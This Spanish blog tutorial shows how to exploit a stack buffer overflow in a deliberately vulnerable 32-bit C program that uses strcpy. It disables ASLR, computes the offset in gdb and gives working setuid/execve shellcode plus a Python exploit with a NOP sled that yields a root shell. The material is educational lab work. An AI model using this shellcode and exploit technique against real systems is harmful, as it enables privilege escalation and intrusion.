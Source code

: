 ```yaml
---
title: "Stack Buffer Overflow [Linux 32 Bit] (Part I)"
layout: single
excerpt: "En este artículo enseñó a crear y usar un exploit de desbordamiento del buffer para ganar un Shell abusando de funciones inseguras como strcpy, getenv etc. También muestro como funciona el binario a bajo nivel, los registros ESP, EIP y como emplear herramientas como gdb o hexedit para editar binarios en hexadecimal."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - EIP
  - Buffer oveflow
  - ESP
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/154846533-363ec43b-7a02-4a8c-b997-dd499dd09fb0.jpg">
</p>

El desbordamiento del búfer o *Buffer Overflow* en Inglés, sucede cuando el programador no hace la suficiente desinfección en el código de un programa. Esto permite sobrepasar el búfer definido y por ello apuntar a ciertos registros para inyectar `shellcode` y derivar a una ejecución de código arbitrario en el sistema.

En este artículo aprovecharemos la función `strcpy` considerada como insegura para sobrepasar un búfer definido y de este modo sobrescribir los registros *ESP*, *EIP* para ganar *RCE*. No tendremos ningún tipo de restricción como ASLR (aleatorización en las direcciones de memoria) o DEP (prevención de ejecución de datos).

Para desactivar ASLR es muy facil, enviamos un 0 como input a `/proc/sys/kernel/randomize_va_space` y listo.

```bash
echo 0 > /proc/sys/kernel/randomize_va_space
```

Para comenzar necesitamos un binario vulnerable a *BoF*, por eso he encontrado este script basico en C que hace uso de `strcpy`.

```c
#include <string.h>
#include <stdio.h>
void main(int argc, char *argv[]) {
        copier(argv[1]);
        printf("Done!\n");
}
int copier(char *str) {
        char buffer[100];
        strcpy(buffer, str);
}
```

Este script no tiene ninguna utilidad, lo que hace básicamente es copiar el primer argumento que le pasemos como *input* y guardarlo en un búfer e imprimir *Done* por pantalla, la vulnerabilidad está en el uso de `strcpy`.

Para la compilación este debe ser en 32 bits, por ello será necesario usar el parámetro `-m32` de `gcc`, de lo contrario os lo creará en 64 bits.

![https://imgur.com/fn2Pckf.png](https://imgur.com/fn2Pckf.png)

![https://imgur.com/pzcdTJT.png](https://imgur.com/pzcdTJT.png)

> Los parámetros utilizados en la compilación son para desactivar algunas restricciones.

Esto nos genera un binario ejecutable, entonces probamos a pasarle una A para verificar que funcione.

![https://imgur.com/UdKB266.png](https://imgur.com/UdKB266.png)

Bien, funciona, ahora vamos a usar `gdb` para monitorear el uso del programa a bajo nivel, le pasamos el parámetro `-q` para la lectura de símbolos y ejecutamos el comando `list` para ver el código.

![https://imgur.com/rRySz6h.png](https://imgur.com/rRySz6h.png)

Haremos un `breakpoint` en la línea 10, ya que la vulnerabilidad no sucede en la función `main`, usamos el comando `break 10`.

![https://imgur.com/P08ILaY.png](https://imgur.com/P08ILaY.png)

Le pasamos 4 bytes como argumento al programa con el comando `run`.

![https://imgur.com/bgUgHwh.png](https://imgur.com/bgUgHwh.png)

Una vez hecho, usamos el comando `info registers` para ver los registros.

![https://imgur.com/25SPQqD.png](https://imgur.com/25SPQqD.png)

Listamos el registro `ESP` con `x/40x $esp`. 

![image](https://user-images.githubusercontent.com/69093629/154841169-af286bb4-b75b-48e7-b64e-cc44f38bd475.jpg)

Como se puede apreciar se ha sobrescrito una direccion de memoria con las 4 As en ANSI.

Ahora bien, ¿que sucede si le pasamos al programa mas 100 As?, vamos a comprobarlo.

![https://imgur.com/Jig6VcD.png](https://imgur.com/Jig6VcD.png)

Se ha producido un desbordamiento del búfer y el binario ha crasheado.

Me he creado un pequeño script en Python que imprima por pantalla mas de 100 As y lo he exportando como BoF.

```python
#!/usr/bin/python3
print("A"*116)
```
![https://imgur.com/ql9LNNA.png](https://imgur.com/ql9LNNA.png)

Le pasamos las As y miramos el registro ESP.

![image (2)](https://user-images.githubusercontent.com/69093629/154843836-0299b369-0d73-4f69-9dbd-ed282d6a0113.jpg)

Como veis están todas las A que le hemos pasado al binario, esto ha sobrescrito hasta la dirección de retorno, vamos a modificar el `retturn address` con `hexedit`, ejecutamos `hexedit` + nombre del binario.

![https://imgur.com/yrbDTpc.png](https://imgur.com/yrbDTpc.png)

Y cambiamos los últimos valores.

![https://imgur.com/olJtCYE.png](https://imgur.com/olJtCYE.png)

Ahora volvemos a ver el registro ESP.

![image (3)](https://user-images.githubusercontent.com/69093629/154845769-4705cb24-ded4-4929-a108-cd7a7e1bfdf4.jpg)

La dirección de retorno ha cambiado, pero está en `little endian`, es decir al revés.

Ahora vamos a calcular el `offset`, es decir las A que tenemos que introducir antes de que el programa corrompa. Para ello hay una herramienta llamada `pattern_create` la cual te crea una cadena especial para luego computar el `offset` con `pattern_offset`.

Le pasé los bytes en los que corrompe el programa.

![https://imgur.com/6u3tOVD.png](https://imgur.com/6u3tOVD.png)

Una vez la cadena creada se la pasamos al programa como argumento.

![https://imgur.com/6szLUpb.png](https://imgur.com/6szLUpb.png) 

La dirección que reporta la copiamos y la pegamos en `pattern_offset`.

![https://imgur.com/Rgoo3Rw.png](https://imgur.com/Rgoo3Rw.png)

Ahí esta, el `offset` son 112 bytes. Ahora haremos uso de NOPS para rellenar los bytes faltantes antes del `shellcode` y llevar el flujo del programa sin problemas.

Necesitamos un `shellcode` para ganar acceso con un Shell, para ello usé el siguiente de 32 bytes.

```bash
\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80
```

Y me he creado un pequeño exploit en Python2 con el siguiente código.

```python
#!/usr/bin/python2

nops = '\x90' * 64
shellcode = (
'\x31\xc0\x89\xc3\xb0\x17\xcd\x80\x31\xd2' +
'\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89' +
'\xe3\x52\x53\x89\xe1\x8d\x42\x0b\xcd\x80'
)
padding = 'A' * (112 - 64 - 32)
eip = "\xb0\xd3\xff\xff"
print nops + shellcode + padding + eip
```

Lo que hace es generar 64 bytes de NOPS `x90` y guardarlos en la variable NOPS, después defino otra variable `shellcode` con el `shellcode`, valga la redundancia, y en la variable `padding` hago los cálculos restando los 112 bytes del `offset`, menos los 64 de los NOPS y los 32 del `shellcode` y creo la cadena de A's del número restante. En la dirección EIP introducimos una del trineo de NOPS en `little endian` para evitar errores, ya que esta estará apuntando a la siguiente instrucción a ejecutar. Y finalmente quedaría algo así.

`\x90\x90.. → \x31\xc0\x89.. → AAAA.. → \xb0\xd3\xff\xff`

Si miramos el resultado en hexadecimal con `hexedit` veremos algo así.

![https://imgur.com/0YAugr1.png](https://imgur.com/0YAugr1.png)

Exporto el exploit como `exp`.

![https://imgur.com/cPzxbeO.png](https://imgur.com/cPzxbeO.png)

Y le hacemos un `cat` al archivo exportado.

![https://imgur.com/KaYXfl8.png](https://imgur.com/KaYXfl8.png)

Y hemos ganado un Shell como `root` en el sistema.


